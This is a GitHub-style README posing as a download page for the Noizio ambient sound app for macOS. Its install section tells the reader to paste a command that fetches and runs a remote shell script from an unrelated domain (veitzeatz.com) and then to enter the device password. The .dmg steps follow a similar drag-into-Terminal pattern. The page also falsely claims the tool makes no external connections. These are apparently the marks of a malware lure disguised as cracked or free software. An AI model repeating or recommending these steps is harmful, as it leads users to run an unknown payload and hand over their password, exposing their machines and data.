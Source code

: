 <p align="center">
  <img src="https://images.dwncdn.net/images/t_app-icon-l/p/7e5ab6f3-9530-4d2b-967e-fd187cc371cf/3701053123/20418_4-76207281-Foreman_13930145_9183_437876720648_256x256.png" alt="Noizio Mac Banner" />
</p>

<h1 align="center">Noizio for macOS</h1>

<p align="center">
  🎧 Create the perfect ambient environment with customizable background soundscapes for work, study, sleep, or meditation.  
  <br><br>
  ✅ Optimized for Apple Silicon and Intel  
  ✅ Works with Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/0noizios" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20Noizio%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Noizio for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://miro.medium.com/v2/resize:fit:800/0*sALOHrX-XqnvwDJK.jpg" alt="Noizio Interface Screenshot" />
</p>

---
## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

---

## ❓ What is Noizio?

**Noizio** is a lightweight ambient sound generator for macOS that helps you stay focused, relax, or fall asleep. Whether you're working in a noisy environment, trying to meditate, or simply want a calm atmosphere, Noizio allows you to mix over 40 high-quality background sounds — from rain and wind to coffee shop chatter and ocean waves.

It’s the perfect productivity and relaxation tool, running discreetly in the background with a minimal footprint. You can create and save your own sound presets, adjust volume levels independently, and enjoy a consistent experience even when offline.

Noizio is fully optimized for **Apple Silicon (M1/M2/M3)** and supports modern macOS versions including **Sonoma**, **Ventura**, and **Monterey**.

---

## ✅ Why Choose Noizio?

- 🎧 **Curated Sound Library** – Includes 40+ ambient loops  
- 🎛️ **Custom Mixes** – Adjust volume levels of each sound  
- 🔁 **Loop Mode** – Seamless playback with no interruptions  
- 💾 **Preset Manager** – Save your favorite sound combos  
- 💤 **Sleep-Friendly** – Use it before bed for deep relaxation  
- 🧠 **Distraction-Free Interface** – Minimal UI that stays out of your way  
- 🌐 **Offline Mode** – All sounds are stored locally  
- 🖥️ **macOS Optimized** – Runs smoothly on all Mac models  

> Whether you need to focus on work or disconnect from the noise, **Noizio** gives you total control over your sonic environment.

---

## 📸 More Screenshots

<p align="center">
  <img src="https://is1-ssl.mzstatic.com/image/thumb/Purple124/v4/16/dd/98/16dd98fc-57c0-ec19-08dc-bd56cb157448/pr_source.png/643x0w.jpg" alt="Noizio Preset Mixer Screenshot" />
  <br><br>
</p>


## 🚀 Key Features

- 🔊 40+ ambient sounds  
- 🌀 Custom volume mixing  
- 🌙 Sleep and relax modes  
- 💾 Save sound presets  
- 🎛️ Minimal user interface  
- 🧠 Productivity enhancement  
- 🖥️ Apple Silicon native  
- 💡 Offline playback support  

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:
- Go to **System Settings > Privacy & Security**  
- Allow Noizio under "App Management"

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/AudioMode-OfflineLooping-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Interface-Minimalist%20UI-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Noizio Sound Suite – Unlock Calm

Thanks for choosing **Noizio** for macOS.  
Craft your perfect ambiance and unlock a truly immersive audio focus experience.

---

## 🧭 Usage Context

This macOS utility is designed for local use cases involving personalized soundscapes, mindfulness support, and offline relaxation sessions.  
It operates without external connections or persistent user tracking.

All activity remains local to your machine, and no system-level alterations are made.  
Avoid deploying in corporate environments or sessions governed by IT policies.

This is a standalone tool provided as-is with no affiliation to official sound platforms or wellness services.

---

## 🔍 Tags

```text
noizio mac download, noizio for macbook, ambient sound app mac, sound mixer for macos, productivity soundscape mac, download noizio macos, noizio sleep noise generator, noizio focus tool mac, offline ambient sounds mac, noizio apple silicon support, noizio ventura compatible, relaxing background audio mac, noizio customizable presets mac, noizio minimal interface mac, noizio white noise player mac
